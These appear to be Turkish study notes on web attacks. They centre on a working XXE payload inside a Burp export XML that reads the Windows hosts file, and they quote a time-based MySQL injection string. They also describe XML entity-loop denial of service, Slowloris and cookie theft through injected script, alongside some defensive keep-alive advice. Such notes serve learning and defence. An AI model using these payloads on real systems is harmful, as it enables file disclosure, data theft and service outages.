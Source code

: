Host dosyasini okkuyabilen bir XML ornegi

```xml
<?xml version="1.0"?>
<!DOCTYPE issues [
  <!ENTITY % a "<!ENTITY foo SYSTEM 'file:///C:/Windows/System32/drivers/etc/hosts'>">  %a;
]>
<issues burpVersion="1.6.01" exportTime="Thu Aug 14 03:38:12 VET 2014">
  <issue>
    <serialNumber>5626899943859184640</serialNumber>
    <type>1049088</type>
    <name>Fake Vulnerability</name>
    <host ip="176.28.50.165">http://testphp.vulnweb.com</host>
    <path><![CDATA[/search.php]]></path>
    <location><![CDATA[/search.php [manual insertion point 1]]]></location>
    <severity>&foo;</severity>
    <confidence>Tentative</confidence>
    <issueBackground><![CDATA[SQL injection vulnerabilities arise ]]></issueBackground>
    <remediationBackground><![CDATA[The most effective way to prevent SQL injection .</li></ul>]]></remediationBackground>
    <issueDetail><![CDATA[The manual insertion point 1 appears to be vulnerable to SQL injection attacks. The payload <b>' and benchmark(20000000,sha1(1))-- </b> was submitted in the manual insertion point 1\. The application took <b>8591</b> milliseconds to respond to the request, compared with <b>50</b> milliseconds for the original request, indicating that the injected SQL command caused a time delay.<br><br>The database appears to be MySQL.]]></issueDetail>
    <requestresponse>
      <request method="POST" base64="true"><![CDATA[UE9TVCAvc2VhcmNo]]></request>
      <response base64="true"><![CDATA[SFRUUC8xLjEgMjAwIE9LDQpTZXJ2ZXI6IG5naW54L]]></response>
      <responseRedirected>false</responseRedirected>
    </requestresponse>
  </issue>
</issues>
```

- Diger XXE saldirma cesidi ise, sunucuya upload edilen xml icine loop koyarak sunucunun cpu gucunu %100 yaparak sunucuyu devre disi birakmakdir.

- Diger bir XXE saldirisi DOCTYPE kismindan alinan parametrenin direk olarak xml icinde kullanilmasi ve calistirilmasidir.

### 2\. SLOWLORIS saldirisi

- Content-Length": headerinda kullanmamak lazim, Keep-Alive: contentin gelmesinde gecen suredir, bitince timeout ulur. IIS te Keep-Alive defaultu 5 saniyedir. Apache de 15 sn filandir. kucuk tutulmasi tavsiye edilir. saldiri, herbir veri gondermede tek karakter gondererek, keep-alive suresi kadar bekleyip bekleyip bir sonraki karakteri gonderir boylece length*keep-alive suresi kadar sunucu portunu acik tutarak sunucuyu tikar.

ayni sekilde zabbix gibi tool lardan gelen hearth bitlerin portu acik tumasini engellemek icin, isletim sistmeindeki keep-alive zamanini kisaltmakta yapilabilri.

saldiri: ayni domainde calisan kullanicilara, mail at domaini kullanarak siteye script enjekte et, daha sonra kullanici tiklayinca cookie ler calinir. veya bir web sitesi yapilir ve kisinin oraya girmsi saglanir, kullanicninin tikladigi url e script gomebilir.
